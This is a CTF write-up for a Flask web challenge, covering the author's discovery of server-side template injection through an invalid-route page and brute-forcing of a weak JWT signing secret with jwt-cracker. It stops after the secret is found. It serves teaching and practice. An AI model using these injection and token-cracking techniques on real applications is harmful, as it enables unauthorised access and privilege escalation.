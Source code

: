 # Drink from my Flask#1 [68 solves] [168 points]

After we enter the page, it shows this :

```
<h2>Invalid operation</h2><br><p>Example: /?op=substract&n1=5&n2=2</p>
```

It's showing the usage of a calculator feature, I tried to exploit it but got nothing

When I make request to an invalid route /notexist, it shows that the path is invalid and display available routes :

```
<h2>/notexist was not found</h2><br><p>Only routes / and /adminPage are available</p>
```

so / is for the calculator, and /adminPage will show that we are a 'guest' :

```
Sorry but you can't access this page, you're a 'guest'
```

So, if we enter an invalid route, it will print out our route, so I tried SSTI with /{{7*7}} and it works :

```
<h2>/49 was not found</h2><br><p>Only routes / and /adminPage are available</p>
```

However, if I use a payload that is too large, it will response with "Anormaly long payload"

So I try to find other ways for SSTI, in /adminPage it will print out 'guest', and actually it's our role in the jwt :

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.AdxhLneoWOkeXGQFwWUbDzS3J2W6_Re-NbZLP_SRUww

{
  "typ": "JWT",
  "alg": "HS256"
}
{
  "role": "guest"
}
```

I tried to change the alg to "none", but it didn't work, however it used a very short secret and I can bruteforce it :

```
# jwt-cracker -t eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.AdxhLneoWOkeXGQFwWUbDzS3J2W6_Re-NbZLP_SRUww
SECRET FOUND: key
Time taken (sec): 1.491
Attempts: 80000
```
